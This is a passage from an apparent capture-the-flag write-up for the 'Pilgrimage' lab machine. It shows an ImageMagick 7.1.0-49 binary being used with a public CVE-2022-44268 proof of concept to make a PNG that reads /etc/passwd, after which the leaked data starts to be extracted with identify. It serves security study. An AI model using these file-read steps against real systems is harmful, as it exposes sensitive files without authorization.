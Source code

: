 As we can see, the app uses a binary called magic to convert the images. Lets check the app

```bash
┌──(kali㉿kali)-[~/…/Boxes/Pilgrimage-10.10.11.219/git/git]
└─$ ls
assets         index.php  logout.php  register.php
dashboard.php  login.php  magick      vendor

┌──(kali㉿kali)-[~/…/Boxes/Pilgrimage-10.10.11.219/git/git]
└─$ ./magick -help
Usage: magick tool [ {option} | {image} ... ] {output_image}
Usage: magick [ {option} | {image} ... ] {output_image}
       magick [ {option} | {image} ... ] -script {filename} [ {script_args} ...]
       magick -help | -version | -usage | -list {option}
                                                                                
┌──(kali㉿kali)-[~/…/Boxes/Pilgrimage-10.10.11.219/git/git]
└─$ ./magick -version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```
It is ImageMagick 7.1.0-49 beta, and using google we found **[this exploit](https://github.com/voidz0r/CVE-2022-44268)**. Clone the repository and execute it pointing the file we want to read, in this case `/etc/passwd`

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Pilgrimage-10.10.11.219/CVE-2022-44268]
└─$ cargo run "/etc/passwd"       
    Finished dev [unoptimized + debuginfo] target(s) in 0.23s
     Running `target/debug/cve-2022-44268 /etc/passwd`
                                                                                
┌──(kali㉿kali)-[~/Documents/Boxes/Pilgrimage-10.10.11.219/CVE-2022-44268]
└─$ ls
Cargo.lock  Cargo.toml  image.png  README.md  screens  src  target
```

Upload the image.png file and save the output image. With identify we can extract the HEX encoded information

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Pilgrimage-10.10.11.219/CVE-2022-44268]
└─$ identify -verbose image-result.png     
Image: image-result.png
  Format: PNG (Portable Network Graphics)
  Geometry: 100x100
  Class: PseudoClass
  Type: palette
  Depth: 1 bits-per-pixel component
  Channel Depths:
    Red:      1 bits
    Green:    1 bits
    Blue:     1 bits
  Channel Statistics:
    Red:
      Minimum:                 65535.00 (1.0000)
      Maximum:                 65535.00 (1.0000)
      Mean:                    65535.00 (1.0000)
      Standard Deviation:          0.00 (0.0000)
    Green:
      Minimum:                     0.00 (0.0000)
      Maximum:                     0.00 (0.0000)
      Mean:                        0.00 (0.0000)
```